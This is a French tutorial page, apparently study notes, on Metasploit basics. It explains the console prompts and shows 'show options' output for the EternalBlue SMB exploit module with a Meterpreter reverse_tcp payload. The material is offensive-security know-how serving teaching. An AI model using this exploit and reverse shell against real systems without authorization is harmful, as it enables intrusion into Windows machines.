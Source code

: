
## __Contexte__

Il y a plusieurs contexte dans metasploit, 
- **regular command prompt**, on ne peut pas utiliser metasploit ici.

```shell
root@ip:~#
```

- **msfconsole prompt**, c'est la console metasploit.

```shell
msf6 >
```

- **Context prompt**, elle indique le module que l'on utilise.

```shell
msf6 exploit(windows/smb/ms17_010_eternalblue) >
```

- **Meterpreter prompt**, cela signifie qu'un agent Meterpreter a été chargé sur la machine ciblé.

```shell
meterpreter >
```

- **shell on the target system**, c'est la ligne de commande sur la machine exploité.

```shell
C:\Windows\system32>
```


## __Options__

### Show

Pour obtenir la liste des options dont a besoin un module pour fonctionner on utilise la commande **`show options`**.

```shell
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit
                                             /basics/using-metasploit.html
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affects Win
                                             dows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machin
                                             es.
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only affects Windows
                                              Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Windows Server 20
                                             08 R2, Windows 7, Windows Embedded Standard 7 target machines.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.0.0.4         yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target



View the full module info with the info, or info -d command.
```

